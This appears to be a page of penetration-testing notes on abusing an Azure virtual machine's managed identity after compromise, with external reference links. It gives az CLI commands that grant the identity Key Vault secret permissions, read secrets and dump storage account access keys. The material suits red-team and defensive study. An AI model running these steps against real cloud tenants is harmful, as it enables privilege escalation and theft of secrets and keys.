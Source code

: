 ```

- https://m365internals.com/2021/11/30/lateral-movement-with-managed-identities-of-azure-virtual-machines/
- https://www.netspi.com/blog/technical/cloud-penetration-testing/azure-privilege-escalation-using-managed-identities/

![managedidentites](https://docs.microsoft.com/en-us/azure/active-directory/managed-identities-azure-resources/media/how-managed-identities-work-vm/data-flow.png)

##### Accessing Key Vault
- In case the Managed Identity of a compromised Linux/Windows VM has Owner rights for exemple we can try to access Key Vaults and secrets within the same resource group.

1. We can use this managed identity from the compromised VM
```
az login --identity
```

2. List Key Vault
```
az keyvault list
```

3. List secret from Azure KeyVault
```
az keyvault secret list --vault-name mysecretkeyvault01  
```

--> This will not be possible as the Managed Identity has only Owner write over the resource group where the Key Vault is stored. But as Owner role, the Managed Identity has enough permission to modify access policy of the Azure Key Vault and grant **list** permission for secrets.  

4. Setting List permission over the Key Vault
```
az keyvault set-policy -n mysecretkeyvault01 --secret-permissions get list --object-id ae46b8fd-6070-49c1-be69-300c771a97f0
```

5. Obtaining secrets from Key Vault with correct **List** permission
```
az keyvault secret show --id https://mysecretkeyvault01.vault.azure.net/secrets/1753b4a6-9372-4c40-b395-74578b1dc3b01
```

##### Accessing Storage Account
- In case the Managed Identity of a compromised Linux/Windows VM has Owner rights on the Resource Group. We can try to Storage Account and Storage Account Keys within the same resource group.  

1. We can use this managed identity from the compromised VM
```
az login --identity
```

2. List storage account
```
az storage account list
```

3. Retrieve all the access keys
```
az storage account keys list -g Demo -n newstorageaccount003
```

4. Use Azure Storage Explorer with Access Key to connect to Storage Account
- https://azure.microsoft.com/en-us/features/storage-explorer/#overview

```